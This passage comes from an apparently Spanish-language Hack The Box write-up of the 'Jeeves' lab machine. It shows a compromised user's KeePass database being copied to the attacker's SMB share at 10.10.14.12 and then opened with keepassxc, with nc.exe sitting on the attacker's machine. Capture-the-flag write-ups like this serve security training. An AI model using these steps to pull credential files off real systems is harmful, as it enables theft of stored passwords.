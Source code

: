 ```bash
```

Esto corresponde al `KeePass`

![](/assets/images/htb-writeup-jeeves/web15.png)

Vamos a traernos eso a nuestra maquina de atacante usando el recurso compartido a nivel de red con `smbclient.py` que ya tenemos

```bash
copy CEH.kdbx \\10.10.14.12\parrotsec\CEH.kdbx
        1 file(s) copied.

C:\Users\kohsuke\Documents>
```

Y tenemos el archivo

```bash
❯ ls
 CEH.kdbx   nc.exe
```

Vamos abrirlo lo mas probable es que necesitemos una contraseña 

```bash
❯ keepassxc CEH.kdbx & disown
[1] 197209
```
